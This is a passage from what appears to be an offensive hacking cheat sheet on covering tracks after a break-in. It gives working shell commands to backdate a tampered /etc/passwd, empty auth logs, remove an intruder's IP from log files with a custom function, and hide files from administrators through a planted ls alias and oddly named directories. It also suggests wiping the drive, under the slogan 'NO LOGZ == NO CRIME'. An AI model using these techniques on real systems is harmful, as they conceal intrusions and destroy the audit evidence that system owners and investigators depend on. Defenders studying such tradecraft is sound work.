 Note: Or delete the file and then fill the entire harddrive with /dev/urandom and then rm -rf the dump file.

<a id="restore-timestamp"></a>
**8.ii. Restore the date of a file**

Let's say you have modified */etc/passwd* but the file date now shows that */etc/passwd* has been modified. Use *touch* to change the file date to the date of another file (in this example, */etc/shadow*)

```sh
touch -r /etc/shadow /etc/passwd
# verify with 'stat /etc/passwd'
```

Use [hackshell](#hackshell) and `ctime /etc/passwd` to also adjust the ctime and birth-time.

<a id="shell-clean-logs"></a>
**8.iii. Clear logfile**

This will reset the logfile to 0 without having to restart syslogd etc:
```sh
>/var/log/auth.log # or on old shells: cat /dev/null >/var/log/auth.log
```

This will remove any line containing the IP `1.2.3.4` from the log file:
```sh
xlog() { local a=$(sed "/${1:?}/d" <"${2:?}") && echo "$a" >"${2:?}"; }
```

Examples:
```sh
# xlog "1\.2\.3\.4" /var/log/auth.log
# xlog "${SSH_CLIENT%% *}" /var/log/auth.log
# xlog "^2023.* thc\.org" foo.log
```

<a id="shell-hide-files"></a>
**8.iv. Hide files from that User without root privileges**

Our favorite working directory is */dev/shm/*. This location is volatile memory and will be lost on reboot. NO LOGZ == NO CRIME.

Hiding permanent files:

Method 1:
```sh
alias ls='ls -I system-dev'
```

This will hide the directory *system-dev* from the *ls* command. Place in User's *~/.profile* or system wide */etc/profile*.

Method 2:
Tricks from the 80s. Consider any directory that the admin rarely looks into (like */boot/.X11/..* or so):
```sh
mkdir '...'
cd '...'
```
